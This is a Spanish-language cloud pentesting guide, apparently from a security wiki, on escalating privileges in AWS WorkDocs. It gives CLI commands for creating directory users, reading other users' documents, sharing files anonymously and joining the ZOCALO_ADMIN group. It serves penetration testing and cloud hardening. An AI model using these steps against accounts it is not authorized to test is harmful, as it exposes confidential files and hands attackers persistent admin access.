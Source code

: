 # AWS - Escalada de privilegios en WorkDocs

## WorkDocs

Para obtener más información sobre WorkDocs, consulte:

{% content-ref url="../../aws-pentesting/aws-services/aws-directory-services-workdocs-enum.md" %}
[aws-directory-services-workdocs-enum.md](../../aws-pentesting/aws-services/aws-directory-services-workdocs-enum.md)
{% endcontent-ref %}

### `workdocs:CreateUser`

Crea un usuario dentro del directorio indicado, luego tendrás acceso tanto a WorkDocs como a AD:

```bash
# Crear usuario (creado dentro de AD)
aws workdocs create-user --username testingasd --given-name testingasd --surname testingasd --password <password> --email-address name@directory.domain --organization-id <directory-id>
```

### `workdocs:GetDocument`, `(workdocs:`DescribeActivities`)`

Los archivos pueden contener información confidencial, léelos:

```bash
# Obtener lo que se creó en el directorio
aws workdocs describe-activities --organization-id <directory-id>

# Obtener lo que cada usuario ha creado
aws workdocs describe-activities --user-id "S-1-5-21-377..."

# Obtener archivo (se recuperará una URL para acceder con el contenido)
aws workdocs get-document --document-id <doc-id>
```

### `workdocs:AddResourcePermissions`

Si no tienes acceso para leer algo, simplemente puedes otorgarlo

```bash
# Agregar permiso para que cualquiera pueda ver el archivo
aws workdocs add-resource-permissions --resource-id <id> --principals Id=anonymous,Type=ANONYMOUS,Role=VIEWER
## Esto dará una identificación, el archivo será accesible en: https://<name>.awsapps.com/workdocs/index.html#/share/document/<id>
```

### `workdocs:AddUserToGroup`

Puedes hacer que un usuario sea administrador estableciéndolo en el grupo ZOCALO_ADMIN.\
Para ello, siga las instrucciones de [https://docs.aws.amazon.com/workdocs/latest/adminguide/manage\_set\_admin.html](https://docs.aws.amazon.com/workdocs/latest/adminguide/manage\_set\_admin.html)

Inicie sesión con ese usuario en Workdoc y acceda al panel de administración en `/workdocs/index.html#/admin`

No encontré ninguna forma de hacer esto desde la CLI.